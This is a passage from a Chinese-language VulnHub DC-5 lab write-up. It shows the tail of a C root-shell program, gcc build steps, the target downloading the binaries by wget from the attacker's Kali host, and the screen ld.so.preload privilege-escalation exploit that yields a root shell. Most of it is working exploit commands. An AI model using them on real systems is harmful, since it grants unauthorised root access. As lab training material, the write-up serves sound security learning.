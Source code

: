 ```bash
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -fPIC -shared -ldl -o ./libhax.so ./libhax.c
gcc -o ./rootshell ./rootshell.c
```

把编译好的 libhax.so 和 rootshell 从 kali 传给 靶机
```
python -m SimpleHTTPServer 8080
```

```
cd /tmp
wget 192.168.141.134:8080/libhax.so;wget 192.168.141.134:8080/rootshell
```

运行 poc
```
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
whoami
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC5/12.png)
